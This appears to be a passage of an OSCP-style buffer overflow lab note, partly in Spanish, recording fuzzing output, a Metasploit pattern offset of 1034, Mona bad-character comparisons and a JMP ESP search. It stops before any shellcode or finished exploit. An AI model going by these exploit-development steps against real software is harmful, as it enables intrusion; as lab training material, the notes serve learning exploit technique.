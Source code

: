 ## Offset

```php
❯ python3 fuzzingBuff.py
.
.
.
Fuzzing with 1100 bytes
Fuzzing crashed at 1100 bytes

```

```php
❯ msf-pattern_create -l 1100
```

```php
❯ msf-pattern_offset -q 35694234
[*] Exact match at offset 1034

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 6F43396E
!mona bytearray -cpb "\x00\x08"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 010CFA18
!mona bytearray -cpb "\x00\x08\x2c"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0104FA18
!mona bytearray -cpb "\x00\x08\x2c\xad"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F3FA18
```

```php
"\x00\x08\x2c\xad"
```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\x08\x2c\xad"
```

![20240228175934.png](20240228175934.png)
